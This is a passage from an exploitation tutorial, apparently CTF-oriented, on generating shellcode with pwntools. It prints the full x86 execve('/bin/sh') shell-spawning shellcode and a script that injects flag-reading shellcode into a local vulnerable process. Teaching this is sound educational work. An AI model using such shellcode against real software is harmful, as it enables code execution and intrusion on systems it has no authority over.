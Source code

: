 Sometimes, shellcoding can be a difficult process to achieve. That's why we can use shellcode generators to help ourselves out. But before using these tools, we need to understand the *forging* of shellcodes so that we know what code is generated and how we can modify it if needed. These tools typically avoid common forbidden bytes, such as null bytes or newlines. However, programs can have their own forbidden bytes. Therefore, it's important to understand our code so that we can modify it.

So, what tool should we use for shellcode generation? Obviously, pwntools. This library has a `shellcraft` class with MANY different shellcodes already prepared. For example, here's how you can generate a simple shell spawn:
```python
>>> from pwn import *
>>> print(shellcraft.sh())
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80
```

You can even use pwntools to generate the shellcode and convert it to opcodes for you. Here's an example of a script that generates a shellcode to print a flag:
```python
from pwn import *

context(os="linux", arch="amd64")
p = process("/vulnerable")

file = asm(shellcraft.cat("/flag"))

p.send(file)
p.interactive()
```

This script generates the shellcode, converts it to opcodes, and sends it to a running process.

<br>

---

[^footnote]: Memory paging is an operating system memory management technique that divides a computer's primary memory into smaller parts, called pages.
[^fn-nth-2]: These are special routines that halt the software execution, usually to switch between userland and kernelspace.
[^fn-nth-3]: Opcode is the portion of a machine language instruction that specifies the operation to be performed.